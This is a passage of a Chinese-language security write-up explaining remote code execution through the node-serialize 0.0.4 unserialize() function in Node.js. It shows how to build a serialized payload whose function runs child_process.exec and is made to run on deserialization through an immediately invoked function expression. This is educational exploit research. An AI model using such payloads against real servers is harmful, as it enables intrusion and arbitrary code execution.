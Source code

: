 ```
`}`
res.send("Hello World");
`}`);
app.listen(3000);
```

Java，PHP，Ruby和Python也有着大量的反序列化问题

[Understanding PHP Object Injection](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)

[Java Deserialization Cheat Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)

[Rails Remote Code Execution Vulnerability Explained](http://blog.codeclimate.com/blog/2013/01/10/rails-remote-code-execution-vulnerability-explained/)

[Arbitrary code execution with Python pickles](https://www.cs.uic.edu/~s/musings/pickle/)

但是我找不到任何解释反序列化/对象的资源来解释Node.js中的注入BUG。

<br>

**Building the Payload**

我使用node-serialize version 0.0.4进行研究，为了成功利用当不可信数据传递到unserialize()函数时，执行任意代码。创建Payload的最好方法就是使用同一模块的serialize()函数。

我创建了以下JavaScript对象并将其传递给serialize()函数。



```
var y = `{`
rce : function()`{`
require('child_process').exec('ls /', function(error,
stdout, stderr) `{` console.log(stdout) `}`);
`}`,
`}`
var serialize = require('node-serialize');
console.log("Serialized: n" + serialize.serialize(y));
```

输出如下：

[![](https://p0.ssl.qhimg.com/t01ab453206f0762572.png)](https://p0.ssl.qhimg.com/t01ab453206f0762572.png)

现在我们有一个序列化的字符串，可以通过unserialize()函数进行反序列化，但问题是代码执行不会发生，直到你触发对应于对象的rce属性的函数。后来我想出，我们可以使用JavaScript的立即调用函数表达式（IIFE）来调用该函数。如果我们在函数体之后使用括号()，当对象被创建时，函数将被调用。 它的工作方式类似于C ++中的类构造函数。

代码：



```
var y = `{`
rce : function()`{`
require('child_process').exec('ls /', function(error,
stdout, stderr) `{` console.log(stdout) `}`);
`}`(),
`}`
var serialize = require('node-serialize');
console.log("Serialized: n" + serialize.serialize(y));
```
